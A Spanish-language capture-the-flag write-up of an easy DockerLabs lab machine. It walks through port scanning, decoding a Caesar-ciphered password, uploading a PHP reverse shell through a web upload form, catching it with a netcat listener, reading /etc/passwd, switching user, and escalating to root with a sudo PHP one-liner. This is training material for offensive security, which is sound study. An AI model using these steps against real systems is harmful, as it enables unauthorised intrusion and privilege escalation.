




[[Writeups]]
#Writeups #Easy #DockerLabs


Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 19:49 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

Encontramos dos servicios http y https, vamos a ver la web http: 



Vemos que es un listado de archivos con un archivo subido:

```bash 
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

Vemos que esta el usuario mateo que tiene una contraseña que parece que tiene las letras cambiadas de posición.

Por lo que hacemos una simple búsqueda en google y nos da estos resultados:



Parece que es el cifrado Cesár, vamos a la web dCode para descifrarlo:



Encontramos en la primera rotación que se forma la frase en ingles easycrxazy, con una x en medio de crazy, vamos a guardarla como tal y si en un futuro no funciona la pruebo como easycrazy

User: **mateo** Password: **easycrxazy**

Ahora vamos a ver la web que hay alojada en el servicio https:


hay una opción abajo de la web de subir archivos así que vamos a probar con una reverse shell de php a ver que tal:


Subo una reverse shell de php hecha en la web RevShells, en conreto la pentest monkey y parece que se ha subido y se ha actualizado la web mostrando el nuevo post, dado que en todas las maquinas que he hecho siempre se suben los archivos al directorio /uploads, pruebo ponerlo a ver si sale y de primeras me da justo el resultado que intuí:


así que iniciamos net cat y clickamos el php:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.217] from (UNKNOWN) [172.17.0.2] 55912
Linux fbf4dd865800 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 18:17:42 up 35 min,  0 user,  load average: 2.01, 1.05, 1.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@fbf4dd865800:/$ 

```

Obtenemos acceso con www-data, enumeramos permisos que podamos tener y no encuentro nada así que vamos a ver el etc/paswd a ver si existe el usuario mateo ya que si es el caso, tenemos sus credenciales:

```bash
www-data@fbf4dd865800:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:101::/nonexistent:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mateo:x:1000:1000::/home/mateo:/bin/bash
www-data@fbf4dd865800:/$ 
```

Existe, hacemos un su a mateo con la contraseña que hemos descifrado:

```bash
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrxazy
su: Authentication failure
www-data@fbf4dd865800:/$ su mateo
su mateo
Password: easycrazy
whoami
mateo
```

El primer caso no da resultado pero el segundo si, aunque obtenemos una shell poco interactiva, vamos a hacer un tratamiento de tty:

```bash
script /dev/null -c bash
# Dale a CTRL + Z y aunque parezca que se vaya la consola introduce los siguientes comandos:

stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

ahora vamos a enumerar los permisos Sudo:



Buscamos en gtfobins y vemos que tenemos esto para php en Sudo:


Lo usamos de una manera personalizada para hacerlo en una sola linea:

```bash
sudo php -r "system('/bin/sh');"
```


Y obtenemos root.